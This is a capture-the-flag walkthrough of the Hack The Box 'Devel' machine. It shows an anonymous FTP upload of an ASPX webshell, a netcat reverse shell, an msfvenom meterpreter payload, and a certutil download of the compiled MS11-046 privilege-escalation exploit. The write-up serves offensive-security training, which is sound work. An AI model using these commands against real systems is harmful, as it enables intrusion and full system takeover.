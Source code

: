 ```yaml
---
description: Work In Progress...
---
```


# Devel

## Overview

## Enumeration

As always we start with an Nmap scan. This is the one I ran

```bash
 sudo nmap -sV -sC 10.129.203.118 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 16:45 EDT
Nmap scan report for 10.129.203.118
Host is up (0.034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

The scan reveals we have two services open: `Microsoft FTP` on `port 21` and `Microsoft IIS` web server on `port 80`.

### FTP

What's particularly interesting is that anonymous login is allowed on port 21 so let's explore that.

We'll make sure that anonymous login does work, which indeed it does.

![](<../../../../.gitbook/assets/image (11).png>)

However, there isn't anything useful for us here.

### IIS

We see what looks to be the default landing page for IIS

![](<../../../../.gitbook/assets/image (40) (1).png>)

Running a dirsearch on the website also did not prove to be useful.

### Curl

I ran a curl command with `-I` to get only the document info

```bash
curl -I http://10.129.203.118/
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Wed, 23 Mar 2022 21:06:06 GMT
```

Seeing that the server is running ASP.NET and I have access to FTP, I can probably upload a webshell

## Foothold w/o Metasploit

### Webshell

I decided to go with the webshell from SecLists

![](<../../../../.gitbook/assets/image (7).png>)

Now we'll upload it over ftp:

![](<../../../../.gitbook/assets/image (46).png>)

We can access our webshell by visiting `10.129.203.118/cmd.aspx`

![](<../../../../.gitbook/assets/image (25) (1).png>)

Here's what returns when entering `whoami`

![](<../../../../.gitbook/assets/image (50).png>)

### Reverse shell

I'll be getting a shell with `nc.exe`

I use impacket-smbserver to host a windows netcat executable to then execute a connection to my kali machine

![](../../../../.gitbook/assets/image.png)

I also start a nc listener on my kali machine to catch a shell

![](<../../../../.gitbook/assets/image (2).png>)

Entering the following command into the webshell:

```
\\10.10.14.3\share\nc.exe -e cmd.exe 10.10.14.3 443
```

![](<../../../../.gitbook/assets/image (3).png>)

And I get a shell!

![](<../../../../.gitbook/assets/image (1).png>)

## Foothold w/ Metasploit

I'll create the payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=443 -f aspx > meterpreter_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2873 bytes
```

Put it on the FTP server

```
ftp> put meterpreter_rev_443.aspx
local: meterpreter_rev_443.aspx remote: meterpreter_rev_443.aspx
229 Entering Extended Passive Mode (|||49186|)
125 Data connection already open; Transfer starting.
100% |**************************************|  2910       34.68 MiB/s    --:-- ETA
226 Transfer complete.
2910 bytes sent in 00:00 (100.65 KiB/s)
```

Use the Metasploit module `exploit/multi/handler`

![](<../../../../.gitbook/assets/image (16).png>)

Visit the page&#x20;

```
http://10.129.203.118/meterpreter_rev_443.aspx
```

And catch a shell!

![](<../../../../.gitbook/assets/image (72).png>)

## Privilege Escalation

Running systeminfo in the shell shows us some good information

![](<../../../../.gitbook/assets/image (44).png>)

In particular, I'm interested in the OS Version, so I look up priv esc for this build and find a nice exploit to use.

{% embed url="https://www.exploit-db.com/exploits/40564" %}

Per the description:

> **Vulnerability description:**
>
> The Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file.&#x20;
>
> The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol.&#x20;
>
> An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.&#x20;
>
> An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.&#x20;
>
> An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges)

We'll compile the code as suggested by the exploit

![](<../../../../.gitbook/assets/image (52).png>)

```
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Since we don't have full access to any user, we'll create a temp directory inside the Public folder and use something like certutil to upload the exploit and use a python http server to aid in the transfer

```
certutil -urlcache -f http://10.10.14.13/MS11-046.exe MS11-046.exe
```

![](<../../../../.gitbook/assets/image (8).png>)

![](<../../../../.gitbook/assets/image (70).png>)

Now we will run the exploit which should give us NT Auth\System level privileges

![](<../../../../.gitbook/assets/image (45).png>)

With our exploit executing successfully, we'll grab both the user and root flags!

![](<../../../../.gitbook/assets/image (56).png>)

![](<../../../../.gitbook/assets/image (23) (1).png>)

